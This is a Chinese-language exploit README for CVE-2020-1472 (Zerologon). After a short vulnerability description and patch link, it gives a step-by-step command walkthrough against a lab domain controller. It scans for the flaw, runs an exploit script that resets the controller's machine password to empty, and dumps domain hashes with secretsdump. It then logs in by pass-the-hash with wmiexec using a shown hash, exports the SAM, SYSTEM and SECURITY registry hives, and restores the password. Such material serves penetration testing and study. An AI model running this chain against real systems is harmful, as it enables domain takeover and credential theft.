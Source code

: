 ## CVE-2020-1472

#### 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| :------------------ | :--------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | x64              | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Server 2019 |                  |         |        |                    |
| Windows Server      |                  | 1903    |        |                    |
| Windows Server      |                  | 1909    |        |                    |
| Windows Server      |                  | 2004    |        |                    |
| Windows Server      |                  | 20H2    |        |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

![image-20201002201920794](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true)

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)